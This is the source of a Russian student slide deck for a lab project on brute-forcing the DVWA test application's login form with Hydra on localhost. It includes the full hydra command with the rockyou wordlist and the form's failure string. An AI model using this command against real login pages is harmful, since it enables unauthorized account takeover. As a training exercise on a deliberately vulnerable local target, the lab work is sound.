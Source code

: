 ```yaml
---
## Front matter
title: "Презентация по индивидуальному проекту №3"
subtitle: "НКНбд-01-21"
author: "Юсупов Эмиль Артурович"

## Generic otions
lang: ru-RU

## Formatting
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true
---
```


# Введение

## Цель работы

- Воспользоваться утилитой Hydra на DVWA в секции Brute Force.


# Выполнение работы

1. Зашли во вкладку localhost/DVWA/vulnerabilities/brute/

2. Нашли нужные для нас компоненты страницы вида input, где name принадлежит [username, password, login] и параграф ошибки.

3. Ввели команду для hydra

```bash
hydra localhost http-post-form -l login \
-P /usr/share/wordlists/rockyou.txt \
"/DVWA/vulnerabilities/brute/ \
:username=^USER^&password=^PASS^&Login=login:Login failed" -V
```

4. Узнали, какие пароли успешны при данном username

# Выводы

Во время выполнения работы, мы получили практические навыки Brute Force при использовании утилиты Hydra

# Спасибо за вниманиие